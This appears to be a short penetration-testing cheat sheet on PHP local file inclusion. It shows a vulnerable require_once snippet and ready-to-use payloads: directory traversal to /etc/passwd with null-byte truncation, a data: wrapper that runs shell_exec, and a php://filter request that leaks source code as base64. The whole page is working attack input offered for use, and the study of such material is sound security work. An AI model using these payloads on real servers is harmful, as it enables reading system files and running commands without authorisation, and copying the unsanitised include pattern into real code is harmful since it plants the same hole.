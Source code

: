 Let's consider following code:

```
$file = $_GET['page']; 
require_once("/var/www/$file.php");
```

Now if we inject /etc/passwd in it , it will look something like this -

```
passwd = $_GET['page']; 
require_once("/var/www/../../../etc/passwd.php");
```

In this case **we cannot conduct File Inclusion with the passwd file because the second line appends a PHP extension to the file name and effectively converts the passwd file to passwd.php** which would result in a ‘file not found error’. In such a case, **we can add a null byte to the passwd file name to terminate the string at the null byte and discard the ‘.php’ extension.**

## Null Byte

```
http://website/page=../../../etc/passwd%00

http://example.com/page=../../../../../../etc/passwd?

/etc/passwd%00jpg     
```

# PHP Wrappers

PHP provides several protocol wrappers that we can use to exploit directory traversal and local file inclusion. These filters give us additional flexibility when attempting to inject PHP code via LFI vulnerabilities.

## Identifying Vulnerability

```
http://192.168.112.132/menu.php?file=data:text/plain,helloworld
```

IF this payload return **helloworld** then we can use php wrappers to execute php commands too

## Executing commands

```
http://192.168.112.132/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

## php filter

Another PHP wrapper, `php://filter` in this example the output is encoded using base64, so you’ll need to decode the output.

```
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../..
```